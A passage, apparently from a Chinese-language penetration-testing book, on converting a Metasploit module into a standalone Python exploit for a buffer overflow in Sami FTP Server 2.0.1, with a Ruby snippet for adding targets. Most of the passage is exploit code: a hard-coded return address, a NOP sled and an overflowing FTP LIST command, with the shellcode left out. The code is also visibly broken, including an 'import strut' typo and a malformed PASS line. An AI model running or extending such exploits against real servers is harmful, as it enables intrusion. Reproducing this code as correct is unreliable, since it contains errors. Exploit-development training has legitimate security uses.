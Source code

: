 最终的结果是一个可以在实际服务器上测试和运行的 Python 漏洞。这也为测试提供了一个很好的起点。如果您发现 Metasploit 模块不能完美地工作，那么将其反转以创建独立模块将为您提供解决可能问题的机会。

请记住，漏洞利用有一个评估系统，可以评估它们的可靠性。如果该漏洞具有较低的可靠性等级，则意味着它可能无法始终如一地产生所需的结果。这使您有机会尝试并改进实际的 Metasploit 模块，并为社区做出贡献。例如，此漏洞的评级较低；考虑测试并尝试改进它。

```
import sys, socket, strut
rhost = "192.168.195.159"
lhost = "192.168.195.172"
rport = 21
password = "badpassword@hacku.com"
username = "anonymous"
eip = struct.pack('<I',0x10028283)
offset = 228 - len(lhost)
nop  = "\x90" *16
shell =() #Shellcode was not inserted to save space
exploit = offset + eip + nop + shell
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((rhost, rport))
print(client.recv(1024))
client.send("USER " + username + "\r\n")
print(client.recv(1024))
client.send("PASS "password + "\r\n")
print(client.recv(1024))
print("[*] Sending exploit")
client.send("LIST" + exploit + "\r\n")
print(client.recv(1024))
client.close()
print("[*] Sent exploit to %s on port %s") % (rhost,rport)
```

现在，这个特定的漏洞是为 Windows XP SP 3 开发的。您现在可以使用此代码尝试并针对不同的平台。独立的 Python 攻击意味着您具有扩展该攻击的必要能力。然后可以向 Metasploit 模块添加其他目标。这可以通过修改模块的以下部分来完成。

![Reversing Metasploit modules](graphics/B04315_08_53.jpg)

以下是如何使用其他相关目标更新实际模块中的代码：

```
'Targets'        =>
        [
          [ 'Sami FTP Server 2.0.1 / Windows XP SP 3',   { 'Ret' => 0x10028283, 'Offset' => 228 } ],
          [ 'New Definition', { 'Ret' => 0x#######, 'Offset' => ### } ],
```

从这个例子中，我们看到了如何反转 Metasploit 模块以创建独立的漏洞利用，该漏洞利用可用于扩展目标选择并提高未来漏洞利用的可靠性。

### 注

如果选择创建具有不同功能的新 Metasploit 模块或更新，并且不希望中断当前安装，则可以将自定义模块加载到 Metasploit 中。以下位置[详细记录了这些细节 https://github.com/rapid7/metasploit-framework/wiki/Loading-External-Modules](https://github.com/rapid7/metasploit-framework/wiki/Loading-External-Modules) 。
